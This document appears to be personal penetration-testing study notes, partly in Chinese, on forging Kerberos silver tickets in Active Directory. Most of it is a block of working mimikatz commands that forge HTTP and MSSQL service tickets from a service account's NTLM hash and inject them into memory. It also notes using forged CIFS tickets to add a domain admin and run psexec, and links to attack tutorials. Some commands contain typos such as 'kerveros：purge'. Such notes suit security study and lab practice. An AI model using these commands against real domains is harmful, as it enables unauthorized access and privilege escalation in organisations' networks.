 ### Silver ticket
+ if the service tickets belong to the current user, then no administrative privileges are required.
+ The user and group permission in service ticket are not verified by the application.
+ silver ticket: forge service ticket to access the target resource with any permission we desire. need service account password and ntlm hash.
+ need service account ntlm hash or computer account hash; rubeus could convert password to hash
+ [How Attackers user Kerberos Silver ticket to exploit System](https://adsecurity.org/?p=2011), cifs/http+wsman/ldap
+ hacktricks silver ticket https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket
+ hacking articles, silver ticket theory/mimikatz/rubeus/mitigation, [Domain Persistence: Silver Ticket Attack](https://www.hackingarticles.in/domain-persistence-silver-ticket-attack/)

```bash
# 获取domain sid
c:\>whoami /user
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
sid:S-1-5-21-4038953314-3014849035-1274281563

## Domain Users SID: S-1-5-21<DOMAINID>-513
## Domain Admins SID: S-1-5-21<DOMAINID>-512
## Schema Admins SID: S-1-5-21<DOMAINID>-518
## Enterprise Admins SID: S-1-5-21<DOMAINID>-519
## Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520

# flush any existing Kerberos tickets 
kerveros：purge
kerberos：list

# create silver ticket, mimikatz kerberos module
## user, username
## domain, domain name
## sid, domain sid
## target, full qualified host name of the service
## service, service type, HTTP
## rc4, pwd hash of iis service account
## /ptt, pass the ticket to memory, remove ptt to save the ticket in file.

# http service 
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

# mssql silver ticket
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpSqlServer.corp.com:1433 /service:MSSQLSvc /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

## sqlcmd connect to mssql service with admin privilege
sqlcmd -s server
```

**cifs sivler ticket**
+ 伪造票据后，添加domain admin user
+ need computer account ntlm hash
+ able to access the c$ share, also able to psexec; https://www.jianshu.com/p/4936da524040
